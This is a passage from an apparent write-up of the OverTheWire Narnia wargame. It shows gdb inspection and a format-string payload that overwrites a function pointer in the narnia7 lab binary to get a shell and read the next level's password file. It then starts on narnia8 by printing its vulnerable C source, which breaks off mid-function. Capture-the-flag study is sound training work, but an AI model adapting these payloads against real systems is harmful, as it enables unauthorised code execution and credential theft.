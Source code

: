 ```

# see 0x08049313 at 0xffffd2cc \x20 deontes null or space
# examine 0x08049313 points hackedfunction
(gdb) x/wx 0x08049313
0x8049313 <hackedfunction+4>:	0x04a0d568

# replace 0xffffd2a8 in \xcc\xd2\xff\xff which is actual pointer for hackedfucntion
(gdb) run $(echo -e "\xa8\xd2\xff\xff")%134517519x%n
continue
Way to go!!!![Detaching after vfork from child process 3818789]
$ whoami
narnia7
```
]
run outside gdb debugger 

```
narnia7@gibson:/narnia$ ./narnia7 $(echo -e "\xa8\xd2\xff\xff")%134517519x%n
goodfunction() = 0x80492ea
hackedfunction() = 0x804930f

before : ptrf() = 0x80492ea (0xffffd2d8)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..

# Not worked see memory location was changed from 0xffffd2a8 to 0xffffd2d8 , so change that value
narnia7@gibson:/narnia$ ./narnia7 $(echo -e "\xd8\xd2\xff\xff")%134517519x%n
```


<img src="img/Pasted image 20240722200152.png" alt="Example Image" width="1080"/>

```
$ cat /etc/narnia_pass/narnia8
```

---

**Narnia8**

```
narnia8@gibson:~$ cd /narnia/
narnia8@gibson:/narnia$ cat narnia8.c 
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int i;

void func(char *b){
	char *blah=b;
	char bok[20];
	//int i=0;

	memset(bok, '\0', sizeof(bok));
	for(i=0; blah[i] != '\0'; i++)
		bok[i]=blah[i];
```